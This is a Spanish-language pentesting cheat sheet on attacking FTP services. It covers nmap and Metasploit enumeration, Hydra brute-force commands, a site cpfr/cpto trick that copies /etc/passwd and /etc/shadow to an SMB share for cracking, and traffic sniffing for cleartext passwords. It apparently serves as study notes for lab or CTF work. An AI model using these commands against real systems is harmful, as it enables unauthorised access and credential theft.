 ```yaml
---
title: "FTP"
layout: "single"
category: "Servicios comunes"
slug: "servicios-comunes/ftp"
date: "2025-09-30"
---
```


### Enumeracion con metasploit
```bash
search type:auxiliary name:ftp
```
### Escaneo vulnerabilidades FTP
```bash
nmap <ip> -p <puerto> -n -Pn --script=ftp-anon
nmap <ip> -p <puerto> -n -Pn --script=ftp*
```
###  Ataques fuerza bruta

#### Hydra
```bash
# Cuando tengo el usuario y quiero sacar la contraseña
hydra -l <usuario> -P /usr/share/wordlists/rockyou.txt ftp://10.10.10.10

# Cuando tengo una contraseña y quiero sacar el usuario
hydra -L /usr/share/wordlists/metasploit/unix_users.txt <usuario> -p password123 ftp://10.10.10.10
```

* -l minúscula especifica un usuario en concreto
* -L mayúscila especifica un diccionario de usuarios
* -p minúscula (mismo para contraseñas)
* -P mayúscula (mismo para  contraseñas)

####  Metasploit
```bash
# search ftp_login, seleccionamos auxiliary/scanner/ftp/ftp_login
	Completamos los datos necesarios y "run"
```

### Vulnerabilidad File Copy
En cierta version de FTP podemos copiar ficheros entre directorios de la máquina. Esto interesa cuando se combina con que tenemos un SMB y podemos acceder a los recursos compartidos.

Podemos copiar los ficheros **passwd** y **shadow** al directorio del recurso compartido y descargarlo para crackearlo. El funcionamiento es el siguiente:

```bash
# Intentamos un login (aunque sea falso), dará error pero recibiremos un prompt

ftp usuario@ip

#Ahora hacemos la magia
site cpfr /etc/passwd
site cpto /home/aeolus/shared/passwd
site cpfr /etc/shadow
site cpto /home/aeolus/shared/shadow
```


### Varios FTP
```bash
#Descargar de forma recursiva todo de un FTP
wget -r ftp://"<user>":"<pass>"@ip

```

### Sniff FTP
FTP por defecto no cifra el tráfico, si tenemos la casualidad que podemos esnifar tráfico, *pertenecemos al grupo pcap*, o tenemos algun privilegio. Podríamos escuchar peticiones al puerto 21 y tratar de obtener contraseñas de acceso en claro.

```bash
tcpdump -i lo -v
```






